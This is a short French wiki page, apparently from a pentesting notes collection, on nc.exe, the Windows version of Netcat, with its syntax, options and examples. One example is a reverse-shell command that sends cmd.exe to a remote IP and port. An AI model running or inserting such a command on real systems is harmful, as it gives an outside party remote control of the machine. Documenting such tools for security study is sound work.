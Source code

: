 ```yaml
---
title: nc
description: Nc est la version disponible sur Windows de Netcat, Netcat est un utilitaire permettant d'ouvrir des connexions réseau, cet outil peut être utilisé pour de nombreux usages
published: true
date: 2024-07-16T17:16:59.898Z
tags: outil, windows
editor: markdown
dateCreated: 2024-07-12T16:56:06.120Z
---
```


# Introduction

Nc est la version disponible sur Windows de Netcat, Netcat est un puissant outil permetttant l'écoute de ports ou encore l'ouverture de connexion réseau, cet outil est principalement utilisé pour se connecter à une une connexion inverse ou backdoor, mais il a d'autres nombreux usages.

> Nc est disponible au téléchargement ici: https://github.com/int0x33/nc.exe/
> {.is-info}

# Syntaxe

`nc.exe [ip/port/les deux] [options]`

# Options

| Option          | Description                                                         |
| --------------- | ------------------------------------------------------------------- |
| `-l`            | Mode écoute (listen), attendre une connexion entrante               |
| `-v`            | Mode verbose, affiche des informations supplémentaires              |
| `-p [port]`     | Spécifie un port d'écoute et aussi là où la connexion est transmise |
| `-e [commande]` | Spécifie la commande à éxectuer lorsqu'une transmission est établie |

# Exemples

Écoute sur sur le port 8080

`nc.exe -l -p 8080`

Envoi une connexion vers l'ip 10.10.14.3 sur le port 8443 qui éxecutera "cmd.exe" lors de l'établissement de la connexion

`nc.exe 10.10.14.3 8443 -e cmd.exe`
